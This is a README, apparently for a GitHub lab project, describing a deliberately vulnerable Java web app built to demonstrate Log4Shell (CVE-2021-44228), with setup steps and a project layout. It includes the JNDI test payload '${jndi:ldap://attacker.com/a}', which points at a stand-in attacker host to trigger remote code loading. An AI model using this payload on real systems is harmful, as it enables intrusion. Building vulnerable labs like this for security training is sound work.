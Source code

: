 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └──setup.sh
├── README.md
└── test_payload.txt # Payload voor formulierinvoer

```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
